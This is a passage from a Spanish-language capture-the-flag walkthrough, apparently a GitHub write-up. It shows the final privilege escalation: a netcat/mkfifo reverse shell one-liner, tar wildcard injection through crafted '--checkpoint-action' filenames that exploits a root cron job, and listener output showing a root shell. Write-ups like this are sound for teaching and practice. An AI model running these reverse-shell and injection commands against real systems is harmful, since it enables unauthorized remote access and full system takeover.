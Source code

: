 El script exploit.sh debe contener el comando para conectar una shell de Bash a nuestro listener.
````
Bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TU_IP_KALI 9999 >/tmp/f
````


## 🏆 Paso 22: Escalada Final, Shell de Root y Flag

Este es el paso culminante donde se ejecuta el payload final preparado en el Paso 21 para obtener acceso de administrador.

1. Preparación del Payload en /var/www/html
   
Una vez que identificamos el Cron Job vulnerable ejecutándose como root (Paso 20), inyectamos nuestra reverse shell en el directorio donde el script backup.sh ejecuta el comando tar cf ... *.

<img width="894" height="327" alt="dentro del shell ejecuto el reverse siguiendo las indicaciones de la pagina web" src="https://github.com/user-attachments/assets/cc2c3a4d-d5c6-46d5-a5a4-c7a6e8205b00" />


💻 Comandos de Inyección (usando el listener en el puerto 8000 para la shell root, como se ve en la captura):
````
Bash

cd /var/www/html

# 1. Creamos el script de shell (ajusta TU_IP_KALI y PUERTO)
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.147.155 8000 >/tmp/f" > shell2.sh
# 2. Creamos los archivos de inyección de tar
echo "" > "--checkpoint-action=exec=sh shell2.sh"
echo "" > "--checkpoint=1"
````
(La captura dentro del shell ejecuto el reverse siguiendo las indicaciones de la pagina web.png muestra la inyección de los archivos en el directorio /var/www/html.)

2. Obtención de la Shell de Root

Con nuestro listener de Netcat configurado en el puerto 8000, esperamos la ejecución del Cron Job de root.

Al ejecutarse, tar interpreta los archivos inyectados y ejecuta shell2.sh, que nos envía una reverse shell de alta prioridad.

💻 Resultado del Listener:
````
Bash

nc -nvlp 8000
listening on [any] 8000 ...
connect to [10.11.147.155] from (UNKNOWN) [10.10.40.222] 53438
# whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
````
